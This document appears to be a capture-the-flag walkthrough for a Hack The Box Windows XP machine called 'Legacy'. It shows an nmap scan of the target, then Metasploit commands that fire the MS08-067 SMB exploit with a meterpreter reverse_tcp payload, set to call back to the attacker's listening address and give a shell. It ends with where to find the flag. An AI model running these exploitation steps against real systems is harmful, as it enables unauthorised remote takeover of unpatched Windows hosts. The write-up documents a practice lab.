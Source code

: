 # Legacy

Legacy is a Windows XP machine that has a vulnerability in the microsoft-ds services

1. Let's scan for open port

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.4 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 19:18 EST
   Nmap scan report for 10.10.10.4
   Host is up (0.031s latency).
   Not shown: 997 filtered tcp ports (no-response)
   PORT     STATE  SERVICE       VERSION
   139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
   445/tcp  open   microsoft-ds  Windows XP microsoft-ds
   3389/tcp closed ms-wbt-server
   Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

   Host script results:
   |_clock-skew: mean: 5d00h58m55s, deviation: 1h24m51s, median: 4d23h58m54s
   |_smb2-time: Protocol negotiation failed (SMB2)
   |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3a:7e (VMware)
   | smb-security-mode:
   |   account_used: <blank>
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   | smb-os-discovery:
   |   OS: Windows XP (Windows 2000 LAN Manager)
   |   OS CPE: cpe:/o:microsoft:windows_xp::-
   |   Computer name: legacy
   |   NetBIOS computer name: LEGACY\x00
   |   Workgroup: HTB\x00
   |_  System time: 2021-11-30T04:17:53+02:00

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 51.38 second
   ```

2. Since port 3389 is closed, we will not bother for now. Let's bring up google and search string within the version of port 445 (google: windows xp microsoft-ds exploit)
3. First search result is from Rapid7 >> S08-067... let's read
4. Looks like its a metasploit exploit. Let's fire it up.
5. In msfconsole

   ```
   msf6 > search ms08_067

   msf6 > use 0

   msf6 exploit(windows/smb/ms08_067_netapi) > options

   Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    135              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


   Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.15.37    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


   Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


   msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
   rhosts => 10.10.10.4

   msf6 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.14.6
   lhost => 10.10.14.6

   msf6 exploit(windows/smb/ms08_067_netapi) > set rport 445
   rport => 445

   msf6 exploit(windows/smb/ms08_067_netapi) > run
   ```

6. Important

   - you need to set the lhost to your tun0's IP address
   - also change the RPORT... for some reason the default rport is 135

7. Once you get a shell... you can then traverse the network. It's a windows machine so yeah!
8. Root.txt is available in c:\Documents and Settings\Administrator\Desktop

<br><br><br>

# Reference

1. https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
